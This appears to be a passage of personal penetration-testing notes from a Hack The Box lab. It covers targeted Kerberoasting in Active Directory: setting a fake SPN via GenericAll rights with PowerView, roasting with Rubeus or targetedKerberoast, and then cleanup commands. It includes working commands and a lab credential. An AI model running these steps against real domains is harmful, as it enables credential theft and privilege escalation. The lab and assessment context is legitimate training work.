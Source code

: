 if we have GenericALL rights over this account, we can modify the account's SPN to create a SPN that we can then kerberoast to obtain the TGS ticket and hopefully crack the hash offline using hashcat

or if we have access to change the SPN 
## Creating a fake SPN
```
$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('HTB\svc-alfresco', $SecPassword) 
```

```powershell-session
Set-DomainObject -Credential $Cred -Identity cyril -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
We could use the tool [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) to perform this same attack from a Linux host, and it will create a temporary SPN, retrieve the hash, and delete the temporary SPN all in one command.

then we can just kerberoast new user with rubeus 

During cleanup
we need to undo all the things we did like creating fake SPN, adding user to group, changing password etc 

removing fake spn
```
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```

removing user from group
```
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose

Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```

Even though we performed as much cleanup as possible, we should still include every modification that we make in our final assessment report.